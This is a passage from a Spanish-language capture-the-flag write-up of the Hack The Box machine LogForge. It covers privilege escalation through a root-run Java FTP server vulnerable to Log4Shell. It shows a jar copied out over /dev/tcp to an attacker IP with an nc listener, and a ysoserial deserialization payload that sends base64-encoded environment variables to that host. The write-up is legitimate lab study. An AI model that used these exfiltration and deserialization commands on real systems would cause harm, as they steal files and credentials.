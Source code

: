 Puedo visualizar la primera flag

```null
tomcat@LogForge:/home/htb$ cat user.txt 
f0ac86e03388c348046f0b41b2d97e0e
```

# Escalada

El usuario root está ejecutando un binario de Java

```null
root         766  0.0  0.0   5568  2768 ?        Ss   13:57   0:00 /usr/sbin/cron -f
root         980  0.0  0.0   7248  3456 ?        S    13:58   0:00  \_ /usr/sbin/CRON -f
root         988  0.0  0.0   2608   612 ?        Ss   13:58   0:00      \_ /bin/sh -c /root/run.sh
root         989  0.0  0.0   5648  3144 ?        S    13:58   0:00          \_ /bin/bash /root/run.sh
root         990  0.1  1.8 3576972 76344 ?       Sl   13:58   0:10              \_ java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```

En la raíz del sistema, parece que hay una copia de ese archivo. Me lo traigo a mi equipo para analizarlo con JDGUI

```null
tomcat@LogForge:/$ ls
bin  boot  cdrom  dev  etc  ftpServer-1.0-SNAPSHOT-all.jar  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var

tomcat@LogForge:/$ cat < ftpServer-1.0-SNAPSHOT-all.jar > /dev/tcp/10.10.16.3/443
```

En mi equipo decompilo el binario

```null
nc -nlvp 443 > ftpServer-1.0-SNAPSHOT-all.jar
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.138] 45922

jd-gui ftpServer-1.0-SNAPSHOT-all.jar
```

Encuentro credenciales para el FTP, pero en texto claro, si no que las está extrayendo de las variables de entorno del usuario root

<img src="/writeups/assets/img/LogForge-htb/6.png" alt="">

Es vulnerable también al log4shell. Pruebo a enviarme todas las variables de entorno a mi equipo, pero no recibo nada

```null
java -jar ysoserial-modified.jar CommonsCollections5 bash 'env | base64 -w 0 > /dev/tcp/10.10.16.3/443' > ftp.ser
```
